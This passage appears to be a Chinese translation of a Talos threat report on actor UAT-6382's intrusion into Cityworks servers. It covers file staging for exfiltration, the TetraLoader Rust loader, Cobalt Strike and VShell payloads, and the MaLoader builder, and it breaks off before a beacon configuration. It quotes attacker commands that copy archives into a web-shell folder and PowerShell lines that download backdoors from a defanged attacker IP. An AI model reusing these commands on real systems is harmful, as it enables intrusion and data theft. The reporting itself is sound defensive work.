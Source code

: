 ![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/rWGOWg48taduicLLfJsI4WspZZ3J8HUoNvHGCYCpAbkfv0fib0ibCQuiaic2dYI0YtaZ4cib7vxWQczFn6LcrT8QmHpQ/640?wx_fmt=webp&from=appmsg "")  
  
图 1. UAT-6382 部署的基于 ASP 的文件上传器。  
  
文件枚举和预处理以进行泄露   
  
UAT-6382 枚举了感兴趣的服务器上的多个目录，以识别它们感兴趣的文件，然后将它们暂存到已部署 Web Shell 的目录中，以便于数据泄露：   
  

```
cmd.exe /c dir c:\inetpub\wwwroot\CityworksServer\ 
cmd.exe /ccopyc:\inetpub\wwwroot\CityworksServer\<backup_archives>c:\inetpub\wwwroot\CityworksServer\Uploads\
```

  
  
部署后门   
  
UAT-6382 通过 PowerShell 在受感染系统上下载并部署了多个后门：   
  

```
cmd[.]exe /c powershell -Command Invoke-WebRequest -Uri 'hxxp[://]192[.]210[.]239[.]172:3219/LVLWPH[.]exe' -OutFile '<parent_directory>\LVLWPH[.]exe'  

cmd.exe /c powershell -Command Invoke-WebRequest -Uri 'http://192[.]210[.]239[.]172:3219/MCUCAT[.]exe' -OutFile 'C:\windows\temp\z1.exe'  

powershell -Command Invoke-WebRequest -Uri 'http://192[.]210[.]239[.]172:3219/TJPLYT[.]exe' -OutFile 'C:\windows\temp\z33.exe'  

cmd.exe /c powershell -Command Invoke-WebRequest -Uri'http://192[.]210[.]239[.]172:3219/z44[.]exe' -OutFile'C:\windows\temp\z44.exe'
```

  
  
Talos 恢复的植入程序是基于 Rust 的加载器，其中包含编码或加密的有效载荷。有效载荷由加载器组件解码/解密后注入到良性进程中。我们将这些加载器追踪为“ TetraLoader ” 。  
  
TetraLoader分析   
  
TetraLoader 是一款基于 Rust 的简单加载器。它会解码嵌入的有效载荷，并将其注入到良性进程（例如 notepad[.]exe）中以激活有效载荷。目前，Talos 已在受感染的终端上发现 TetraLoader 部署了两种类型的有效载荷：   
1. Cobalt Strike 信标：这些是与位置无关的、内存中的 Cobalt Strike 信标 shellcode，由 TetraLoader 注入到指定的良性进程中。   
  
1. VShell stager：位置无关的 shellcode，我们已将其确定为 VShell 的 stager，它与硬编码的 C2 服务器对话并执行发送给它的代码。   
  
TetraLoader 使用一个相对较新的有效载荷构建器框架“MaLoader”构建，该框架于 2024 年 12 月首次出现在 GitHub 上。MaLoader 有多种选项可以将 Shellcode 编码并嵌入到基于 Rust 的容器 TetraLoader 中。   
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/rWGOWg48taduicLLfJsI4WspZZ3J8HUoNToKW9ibhvvgpZvVMYo4HibwTrIDmSZEMGib2GByFWmZlp3QFnYDVRTIaQ/640?wx_fmt=webp&from=appmsg "")  
  
图 2. MaLoader 的构建器界面  
  
MaLoader 是用简体中文编写的，这表明使用它的威胁行为者可能对该语言有相当高的熟练程度。  
  
Cobalt Strike 信标   
  
Cobalt Strike 信标相对简单，与传统生成的 Cobalt Strike 信标相比，变化不大。Talos 发现的其中一个信标可以连接到命令与控制 (C2) 域“cdn[.]lgaircon[.]xyz”，具体包含以下配置设置：  
  